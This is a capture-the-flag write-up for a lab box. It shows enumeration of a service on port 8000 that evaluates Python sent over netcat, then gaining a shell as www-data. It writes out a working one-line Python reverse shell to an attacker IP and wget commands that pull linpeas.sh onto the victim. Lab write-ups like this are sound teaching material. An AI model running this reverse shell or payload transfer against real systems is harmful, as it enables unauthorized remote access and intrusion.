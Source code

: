 ```console
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two open ports:

- **22** (SSH)
- **8000** 

## Shell as www-data

If we make an **HTTP** request to port **8000**, we receive the response: `Try a more basic connection`.

```console
$ curl http://10.10.118.186:8000/
Try a more basic connection
```
I tried Fuzzing folders but the same message `Try a more basic connection!` I tried inject python code in the URL but noting was working the more basic connection that a can in my head is using `nc`
Following the message, connecting with `nc` and attempting to run a command, we encounter an error specific to **Python**.

```console
$ nc 10.10.118.186 8000
test
name 'test' is not defined
```

Pursuing this further, we can confirm that we are able to execute **Python** commands.

```console
print("hello")
hello
```
From this [WebSite](https://www.revshells.com/) I found a verse shell using python
Using this, we can send a **Python** reverse shell payload and obtain a shell.

```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.4.214",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

```console
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.4.214] from (UNKNOWN) [10.10.118.186] 38688
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
but this session doesn’t have permission to access the user `think` in home folder so the first think I did is to user `linpeas.sh` I went to `tmp` folder since I can get files without any permission and I wget `linpeas.sh` from my pc

```console
$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.118.186 - - [06/Oct/2024:00:07:35] "GET /linpeas.sh HTTP/1.1" 200 -
```
From the victim machine :
```console
$ wget http://10.9.4.214:8000/linpeas.sh
-- 2024-10-05 23:08:52 -- http://10.9.4.214:8000/linpeas.sh
Connecting to 10.9.4.214:8000 ... connected.
HTTP request sent, awaiting response ... 200 OK
Length: 824942 (806K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 805.61K  89.4KB/s    in 9.0s    
```